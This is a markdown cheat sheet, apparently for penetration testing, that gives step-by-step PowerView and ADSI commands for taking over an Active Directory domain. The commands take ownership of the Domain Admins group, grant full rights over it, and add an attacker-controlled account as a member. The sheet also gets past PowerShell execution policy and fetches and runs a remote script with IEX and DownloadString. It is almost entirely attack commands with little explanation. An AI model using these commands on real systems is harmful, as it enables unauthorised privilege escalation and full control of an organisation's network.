 # Power view cheat sheet

## Commands
## Note: Domain = `bank.com`, User = `goodboy`, 

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

- Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
- Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

- Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
- Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission Why Needed

- Modify owner	
- Modify permissions	
- Write properties	

### 1. with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView
```
- Note: (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

- Verify if 'bb2' has WriteDACL on Domain Admins
```bash
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights
```
- Add GenericAll permission
```bash
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose
```
- Add your account to the group
```bash
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose
```
- Verify
```bash
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
```

### 2. with permission  - write all properties ✔ is  only enabled

### if powerview  fails
```bash
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")
```
### 3. with permissions - ✔ modify owner is only enabled
```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
```
-or downloade the script and run by import
```bash
powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force
```
```bash
- 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

- 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

- 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose
```